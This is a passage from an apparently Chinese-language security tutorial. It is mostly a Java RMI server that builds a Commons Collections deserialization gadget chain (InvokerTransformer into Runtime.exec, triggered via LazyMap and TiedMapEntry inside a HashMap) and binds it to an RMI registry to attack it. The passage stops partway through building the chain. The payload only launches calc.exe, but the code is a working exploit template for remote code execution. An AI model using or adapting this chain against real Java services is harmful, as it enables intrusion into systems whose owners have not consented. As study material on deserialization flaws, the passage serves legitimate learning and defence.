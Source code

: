 3. 服务端可以构造如下攻击语句：
    ```java
    package com.endlessshw.rmi.server;
    
    import com.endlessshw.rmi.common.IMyRemote;
    import com.endlessshw.rmi.common.Impl.MyRemoteImpl;
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.keyvalue.TiedMapEntry;
    import org.apache.commons.collections.map.LazyMap;
    
    import java.lang.reflect.*;
    import java.rmi.Remote;
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import java.util.HashMap;
    import java.util.Map;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: 服务器，提供自定义类的 RMI 服务
     * @date 2023/5/3 11:51
     */
    public class MyRemoteServer {
        public static void main(String[] args) throws Exception {
            // 实例化自定义类R
            IMyRemote myRemote = new MyRemoteImpl();
    
            // 通过 UnicastRemoteObject 将服务导出为远程服务接口，前提是远程接口没有继承 UnicastRemoteObject
            // IMyRemote myExportedRemote = (IMyRemote) UnicastRemoteObject.exportObject(myRemote, 0);
    
            // 通过注册中心，将 RMI 服务注册到 1099 端口
            // 远程拿到注册对象，这里为了演示方便，就先创建再远程获取
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
            // 如果注册中心和服务端在一起，上面的方法就要注释掉，改用下面的方法
            // Registry registry = LocateRegistry.createRegistry(1099);
            
            // rebindAttack 攻击注册中心
            registry.rebind("myRemote", rebindAttack());
        }
    
        private static Remote rebindAttack() throws Exception {
            // 1. 构造链 sink
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
            };
            ChainedTransformer transformedChain = new ChainedTransformer(transformers);
            // 2. kick-off 创建 HashMap
            HashMap<Object, Object> toBeSerializedHashMap = new HashMap<>();
            // 3. 构建 chain2，创建 LazyMap，先不传链的后半部分，让链断开，这样 put 时调用 HashMap.hashCode() 时不会触发链
            LazyMap lazyMap = (LazyMap) LazyMap.decorate(new HashMap<>(), new ChainedTransformer(new Transformer[]{}));
            // 4. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
            // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
            TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry(lazyMap, "EndlessShw");
            // 5. 将 kick-off 和 chain 相连
            toBeSerializedHashMap.put(lazyMapTiedMapEntry, "随便");